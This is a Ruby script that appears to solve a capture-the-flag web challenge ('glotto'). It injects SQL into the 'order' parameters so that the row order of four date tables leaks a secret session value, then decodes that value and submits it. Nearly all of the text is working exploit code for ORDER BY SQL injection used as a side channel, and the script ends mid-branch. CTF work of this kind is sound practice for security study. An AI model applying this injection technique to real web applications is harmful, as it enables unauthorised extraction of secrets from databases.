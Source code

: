```ruby
def inv_dates(dates)
    n = dates.size
    s = dates.sort
    inv_perm(inverse_permutation(dates.map{|a|s.index(a)}), n)
end


#p inv_perm([3, 1, 0, 2], 4)

#p to_perm(7, 4)
#puts generate_permutation(4, 19)

# BASE_URL = 'http://127.0.0.1:8000/'
BASE_URL = 'http://glotto.web.ctfcompetition.com'
require 'httpclient'
require 'nokogiri'
client = HTTPClient.new

def fac(x)
    return 1 if x <= 1
    return fac(x - 1) * x
end
# 36進数を取得する
number = "CAST(CONV(@lotto, 36, 10) AS UNSIGNED)"
query = {}
tables = [march, april, may, june]
ns = []
4.times do |i|
    f = fac(tables[i].size)
    #p f
    ns << "(#{number}) MOD #{f}"
    number =  "(#{number}) DIV #{f}"
    query['order' + i.to_s] = get_query(tables[i], ns[i])
end

resp = client.get(BASE_URL, query)
# puts resp.body
doc = Nokogiri::HTML.parse(resp.body, nil, 'utf-8')
tables=  []
doc.css('table').each do |tbl|
    dates = []
    tbl.css('tr > td:first-child').each do |d|
        dates << d.inner_text
    end
    tables << dates
end
# p tables
m = 1
ret = 0
4.times do |i|
    ret += m * inv_dates(tables[i])
    m *= fac(tables[i].size)
    # p [inv_dates(tables[i]), m]
end
remain = (4738381338321616896 / m)
key = (ret + m * rand(remain)).to_s(36)
key = '0' + key while key.size < 12

resp = client.post(BASE_URL, body: {code: key.upcase})
if /was (.{12})/ =~ resp.body
    p ['failed', 'check', $1.to_i(36) % m == ret, resp.body]
else
    puts "FOUND!!!"
```